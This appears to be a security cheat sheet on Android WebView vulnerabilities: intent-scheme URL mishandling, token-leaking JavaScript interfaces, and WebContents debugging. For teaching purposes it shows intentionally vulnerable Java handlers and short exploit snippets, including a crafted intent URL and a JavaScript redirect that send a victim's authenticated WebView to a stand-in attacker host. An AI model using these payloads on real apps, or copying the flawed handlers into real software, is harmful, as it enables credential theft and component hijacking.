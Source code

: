 # WebView overview

[WebView](https://developer.android.com/reference/android/webkit/WebView) is a View that displays web pages. WebView objects display web content as part of an activity layout, but lack some of the features of fully-developed browsers.

# Security issues

## Access to arbitrary components

The Intent class allows developers to convert an intent to a string holding a URI representation of it with the [toUri(flags)](https://developer.android.com/reference/android/content/Intent#toUri%28int%29) method and create an intent from this URI with the [parseUri(stringUri, flags)](https://developer.android.com/reference/android/content/Intent#parseUri%28java.lang.String,%20int%29) method. An app can use this to parse a URL with the `intent` scheme into intent and launch an activity while handling the URL within the WebView. If the handling is not implemented correctly, you can access arbitrary components of the app.

{% embed url="https://0xn3va.gitbook.io/cheat-sheets/android-application/intent#access-to-arbitrary-components" %}

Developers can override the [shouldOverrideUrlLoading()](https://developer.android.com/reference/android/webkit/WebViewClient#shouldOverrideUrlLoading%28android.webkit.WebView,%20android.webkit.WebResourceRequest%29) method of the WebViewClient class to handle all efforts to load a new link within WebView. The example of mishandling might look as follows:

```java
public boolean shouldOverrideUrlLoading(WebView view, WebResourceRequest request) {
    Uri uri = request.getUrl();
    if ("intent".equals(uri.getScheme())) {
        startActivity(Intent.parseUri(uri.toString(), Intent.URI_INTENT_SCHEME));
        return true;
    }
    return super.shouldOverrideUrlLoading(view, request);
}
```

This code adds a custom handler for URLs with the `intent` scheme that launch a new activity using the passed URL. You can exploit this mishandling by creating a WebView and redirecting it to a specially crafted `intent-scheme` URL:

```java
// Intent-scheme URL creation
Intent intent = new Intent();
intent.setClassName("com.victim", "com.victim.AuthWebViewActivity");
intent.putExtra("url", "http://attacker-website.com/");
String url = intent.toUri(Intent.URI_INTENT_SCHEME);
// "intent:#Intent;component=com.victim/.AuthWebViewActivity;S.url=http%3A%2F%2Fattacker-website.com%2F;end"
Log.d("evil", url);
```

```java
// AuthWebViewActivity
webView.loadUrl(getIntent().getStringExtra("url"), getAuthHeaders());
```

```javascript
// Redirect within WebView
location.href = "intent:#Intent;component=com.victim/.AuthWebViewActivity;S.url=http%3A%2F%2Fattacker-website.com%2F;end";
```

However, there are several restrictions:

- Intent embedded `Parcelable` and `Serializable` objects cannot be converted to string and these objects will be ignored.
- The [Intent.parseUri(stringUri, flags)](https://developer.android.com/reference/android/content/Intent#parseUri%28java.lang.String,%20int%29) ignores the [Intent.FLAG_GRANT_READ_URI_PERMISSION](https://developer.android.com/reference/android/content/Intent#FLAG_GRANT_READ_URI_PERMISSION) and [Intent.FLAG_GRANT_WRITE_URI_PERMISSION](https://developer.android.com/reference/android/content/Intent#FLAG_GRANT_WRITE_URI_PERMISSION) flags by default. The parser leaves them only if the [Intent.URI_ALLOW_UNSAFE](https://developer.android.com/reference/android/content/Intent#URI_ALLOW_UNSAFE) flag is set.

    ```java
    startActivity(Intent.parseUri(url, Intent.URI_INTENT_SCHEME | Intent.URI_ALLOW_UNSAFE)
    ```

## addJavascriptInterface

[addJavascriptInterface](https://developer.android.com/reference/android/webkit/WebView#addJavascriptInterface%28java.lang.Object,%20java.lang.String%29) method injects the supplied Java object into this WebView. The object is injected into all frames of the web page, including all the `iframes`, using the supplied name. This allows the Java object's methods to be accessed from JavaScript (the Java object's fields are not accessible).

This method can provide data to JavaScript or even allow JavaScript to controll the host application. For example, the following interface is leaking a user token:

```java
public class DefaultJavascriptInterface {
    Context context;

    public DefaultJavascriptInterface(Context c) {
        this.context = c;
    }

    @JavascriptInterface
    public getToken() {
        SharedPreferences sharedPref = context.getSharedPreferences(getString(
            R.string.preference_file_key), 
            Context.MODE_PRIVATE
        );
        return sharedPref.getString(getString(R.string.token_key), "")
    }
}
```

```java
public class DefaultActivity extends Activity {
    // ...

    public void loadWebView() {
        WebView webView = (WebView)findViewById(R.id.web_view);
        webView.getSettings().setJavaScriptEnabled(true);
        webView.addJavascriptInterface(new DefaultJavascriptInterface(this), "DefaultJavascriptInterface")
        // ...
    }
}
```

```html
<script>
    alert("Token: " + DefaultJavascriptInterface.getToken());
</script>
```

## setWebContentsDebuggingEnabled

[setWebContentsDebuggingEnabled](https://developer.android.com/reference/android/webkit/WebView.html#setWebContentsDebuggingEnabled%28boolean%29) enables debugging of web contents (HTML/CSS/JavaScript) loaded into any WebViews of an application. This flag is used in order to facilitate debugging of web layouts and JavaScript code running inside WebViews.

{% hint style="info" %}
`WebContentsDebugging` is not affected by the state of the `debuggable` flag in the application's manifest. 
{% endhint %}

Enabling this flag allows you to execute arbitrary JavaScript code within any WebViews of an application.

References:
- [Remote debugging WebViews](https://developer.chrome.com/docs/devtools/remote-debugging/webviews/)

# References

- [Oversecured: Android Access to app protected components](https://blog.oversecured.com/Android-Access-to-app-protected-components/)
